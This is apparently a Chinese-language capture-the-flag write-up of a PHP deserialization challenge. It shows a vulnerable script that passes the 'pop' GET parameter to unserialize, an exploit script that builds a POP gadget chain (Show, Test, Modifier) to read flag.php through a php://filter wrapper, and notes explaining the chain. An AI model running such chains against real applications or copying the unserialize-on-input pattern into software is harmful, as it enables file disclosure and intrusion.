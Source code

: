 ```php

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
?>
```

```php
<?php
class Modifier {
    protected  $var = "php://filter/convert.base64-encode/resource=flag.php";
}

class Show{
    public $source;
    public $str;
    public function __construct($file){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return "www.gem-love.com";
    }
}

class Test{
    public $p;
    public function __construct(){
        echo "constrcut"."</br>";
        $this->p = new Modifier();
    }
}
$o = new Show('aaa');
$o->str = new Test();
var_dump ($o->str);
$a = new Show($o);
var_dump($a);
echo urlencode(serialize($a));
?>
```

- 首先可以看到漏洞的利用点在Modifier类，通过控制调用名为Modifier的无参函数，触发invoke魔术方法，而$var我们可控。
- 触发invoke的方法在Test类中，可以看到它的get魔术方法会调用$function()而$function我们可控。
- 触发get的方法在Show类中，toString中的调用`return $this->str->source;`可以构造$str为Test，$source为不存在的变量，触发get方法。
- 触发toString的方法，该方法用于一个类被当成字符串时应怎样回应，在Show的construct中可以看到有字符串的使用`echo 'Welcome to '.$this->source."<br>";`，只需要构造一个Show类的对象的$source变量为Show类的对象，就可以触发toString方法。
